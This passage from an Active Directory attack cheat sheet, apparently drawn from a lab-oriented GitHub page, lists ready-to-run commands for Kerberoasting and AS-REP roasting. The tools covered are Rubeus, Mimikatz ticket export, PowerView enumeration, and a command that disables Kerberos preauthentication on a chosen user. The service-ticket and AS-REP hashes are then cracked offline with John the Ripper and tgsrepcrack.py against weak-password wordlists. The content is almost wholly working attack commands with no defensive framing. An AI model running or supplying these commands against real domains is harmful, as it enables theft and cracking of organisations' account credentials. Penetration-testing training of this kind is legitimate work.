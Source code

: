 ```powershell
C:> Rubeus.exe kerberoast /outfile:<fileName> /domain:<domain> /aes

# Specifying the authentication credentials 
C:> Rubeus.exe kerberoast /outfile:<fileName> /domain:<domain> /creduser:<user> /credpassword:<pass>

# Kerberoast all possible accounts
C:> Rubeus.exe kerberoast /outfile:hashes.txt                  

# Crack with John. Adequate file before cracking
C:> john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```
#### Using Mimikatz
```powershell
C:> Add-Type -AssemblyNAme System.IdentityModel

C:> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken 
    -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# Dump account hashes to a `.kirbi` files: asd@service_asdasd
C:> . .\Invoke-Mimikatz.ps1
C:> Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack using `tgsrepcrack.py`
C:> python.exe .\tgsrepcrack.py .\<wordlist>.txt .\<exported_file_from_mimikatz>.kirbi
```
### Targeted Kerberoasting AS-REPs
---
For a domain user with kerberos preauthentication disabled, a valid TGT for the account can be requested without even having domain credentials. Then bruteforce the encripted passwd in the TGT.
#### Enumerating accounts with Kerberos Preauth disabled
```powershell
# PowerView
C:> Get-DomainUser -PreauthNotRequired -Verbose    

# AD Module
C:> Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
#### Disable Kerberos Preauth
```powershell
# Disable it
C:> Set-DomainObject -Identity <user> -XOR @{useraccountcontrol=4194304} -Verbose

# Check again
C:> Get-DomainUser -PreauthNotRequired -Verbose  
``` 
#### ASREPRoast 
```powershell
# Enumerate Users with Kerberos preauth disabled
C:> Invoke-ASREPRoast -Verbose

# Request Encrypted AS-REP for Offline Brute Force
C:> Get-ASREPHash -UserName <user> -Verbose

# Crack using JTR
C:> john.exe --wordlist=C:\10k-worst-pass.txt C:\asrephashes.txt
```
#### Rubeus
```powershell
# Roast all domain users
Rubeus.exe asreproast /format:<john or hashcat> /domain:<domain> /outfile:<file>

```